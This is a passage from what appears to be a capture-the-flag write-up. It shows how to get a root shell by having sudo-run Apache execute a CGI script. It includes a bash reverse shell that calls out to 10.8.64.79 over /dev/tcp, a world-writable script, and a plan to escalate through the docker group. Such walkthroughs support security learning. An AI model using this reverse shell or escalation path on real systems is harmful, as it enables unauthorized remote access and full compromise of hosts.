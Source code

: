 ### Unintended #2: RCE with CGI Scripts

Another method we can utilize to get a shell is to use `CGI scripts` to run our commands. For this, we can create a basic configuration that maps the `/rev` endpoint on the server to the script at `/tmp/rev.sh`:

```
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so
LoadModule authz_core_module /usr/lib/apache2/modules/mod_authz_core.so
LoadModule mime_module /usr/lib/apache2/modules/mod_mime.so
LoadModule cgi_module /usr/lib/apache2/modules/mod_cgi.so
LoadModule alias_module /usr/lib/apache2/modules/mod_alias.so

User root
Group root

ServerName localhost
Listen 8080

TypesConfig /etc/mime.types

ScriptAlias /rev /tmp/rev.sh

ErrorLog "/tmp/error.log"
```
{: file="/tmp/cgi.conf"}


Let's also create the `/tmp/rev.sh` and place a reverse shell payload inside, then make it executable by everyone:

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.8.64.79/443 0>&1
```
{: file="/tmp/rev.sh" }

```console
dolivaw@ubuntu-jammy:~$ chmod 777 /tmp/rev.sh
```

But, if we try to start the `apache2` with this configuration, we can see that we are not allowed to execute `apache` as root.

```console
dolivaw@ubuntu-jammy:~$ sudo /usr/sbin/apache2 -f /tmp/cgi.conf -k start
AH00526: Syntax error on line 7 of /tmp/cgi.conf:
Error:\tApache has not been designed to serve pages while\n\trunning as root.  There are known race conditions that\n\twill allow any local user to read any file on the system.\n\tIf you still desire to serve pages as root then\n\tadd -DBIG_SECURITY_HOLE to the CFLAGS env variable\n\tand then rebuild the server.\n\tIt is strongly suggested that you instead modify the User\n\tdirective in your httpd.conf file to list a non-root\n\tuser.\n
```

However, this is not a problem, as there are many other users and groups that, if we manage to get a shell as, allow us to escalate to the `root` user fairly easily. One such group is the `docker` group, so let's change our configuration to run it as the `docker` group:
